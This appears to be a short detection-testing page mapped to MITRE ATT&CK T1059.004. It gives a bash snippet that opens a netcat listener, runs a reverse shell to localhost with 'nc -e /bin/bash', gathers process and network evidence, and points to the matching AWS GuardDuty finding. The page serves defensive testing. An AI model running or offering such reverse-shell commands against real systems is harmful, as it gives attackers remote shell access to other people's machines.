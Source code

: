 ## Command and Scripting Interpreter: Unix Shell
https://attack.mitre.org/techniques/T1059/004/

### Reverse Shell 

``` bash
echo "Start listener on port 4444"
nc -lvp 4444 &
sleep 2
echo "Reverse shell execution"
nc 127.0.0.1 4444 -e /bin/bash &
sleep 2
echo "Get evidences"
ps aux | grep "nc\|bash"
netstat -otnp | grep 4444
``` 

#### Detection

AWS GuardDuty Runtime Monitoring -> Execution:Runtime/ReverseShell (https://docs.aws.amazon.com/guardduty/latest/ug/findings-runtime-monitoring.html#execution-runtime-reverseshell)
